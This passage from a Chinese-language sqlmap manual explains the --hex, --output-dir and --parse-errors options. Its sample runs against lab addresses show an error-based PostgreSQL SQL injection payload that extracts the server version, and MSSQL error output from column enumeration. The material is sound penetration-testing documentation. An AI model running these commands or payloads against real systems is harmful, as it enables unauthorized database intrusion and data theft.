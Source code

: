 有时候字符编码的问题，可能导致数据丢失，可以使用hex函数来避免：

针对PostgreSQL例子：

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors

[...]
[xx:xx:14] [INFO] fetching banner
[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:??invalid input syntax for type numeric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c202844656269616e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.php</b> on line <b>35</b>'
[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by
GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
[...]

```

### 自定义输出的路径

参数：--output-dir

sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径 例如：--output-dir=/tmp

### 从响应中获取DBMS的错误信息

参数：--parse-errors

有时目标没有关闭DBMS的报错，当数据库语句错误时，会输出错误语句，用词参数可以会显出错误信息。

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --parse-errors
[...]
[11:12:17] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] target URL appears to have 3 columns in query
[...]

```
